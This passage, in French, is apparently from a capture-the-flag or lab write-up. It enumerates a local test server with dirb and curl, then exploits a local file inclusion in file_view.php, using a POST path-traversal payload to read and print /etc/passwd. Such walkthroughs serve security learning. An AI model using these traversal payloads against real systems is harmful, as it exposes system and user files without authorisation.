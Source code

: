 ```console
root@blinils:~# dirb https://192.168.56.101:12322/ -X .txt

--snip--
URL_BASE: https://192.168.56.101:12322/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.txt) | (.txt) [NUM = 1]

--snip--
+ https://192.168.56.101:12322/robots.txt (CODE:200|SIZE:38)
--snip--

root@blinils:~# curl --insecure https://192.168.56.101:12322/robots.txt
User-agent: *
Disallow: file_view.php

root@blinils:~# curl --insecure https://192.168.56.101:12322/file_view.php
<!-- Error file parameter missing..!!! -->
```

Très rapidement, on devine une [inclusion de fichier local](http://www.commentcamarche.net/contents/61-attaques-par-manipulation-d-url) (_local file inclusion_ en anglais) sur la page ```file_view.php``` et son paramètre ```file```. Le but du jeu consiste à lire le contenu de fichiers stockés sur le serveur, autres que ceux initialement prévus dans le schéma de navigation du site. Rien n'empêche d'inclure un autre fichier présent sur le serveur, puisqu'aucun contrôle n'est implémenté sur la valeur du paramètre ```file```. Un exemple ? Le fichier ```/etc/passwd``` qui contient la liste des utilisateurs du système. La méthode [GET](https://www.w3schools.com/tags/ref_httpmethods.asp) (le paramètre ```file``` est inclus dans l'URL) est testée en premier  : aucun résultat. La méthode [POST](https://www.w3schools.com/tags/ref_httpmethods.asp) (le paramètre est situé dans le corps de la requête) est ensuite testée : bingo !

```console
root@blinils:~# curl --insecure https://192.168.56.101:12322/file_view.php?file=/etc/passwd
<!-- Error file parameter missing..!!! -->

root@blinils:~# curl --insecure https://192.168.56.101:12322/file_view.php --data "file=/etc/passwd"

root@blinils:~# curl --insecure https://192.168.56.101:12322/file_view.php --data "file=../../../../../etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
--snip--
shellinabox:x:107:109:Shell In A Box,,,:/var/lib/shellinabox:/bin/false
ntp:x:108:111::/home/ntp:/bin/false
stunnel4:x:109:113::/var/run/stunnel4:/bin/false
postfix:x:110:114::/var/spool/postfix:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
n30:x:1000:1000:Neo,,,:/home/n30:/bin/bash
testuser:x:1001:1001::/home/testuser:
```
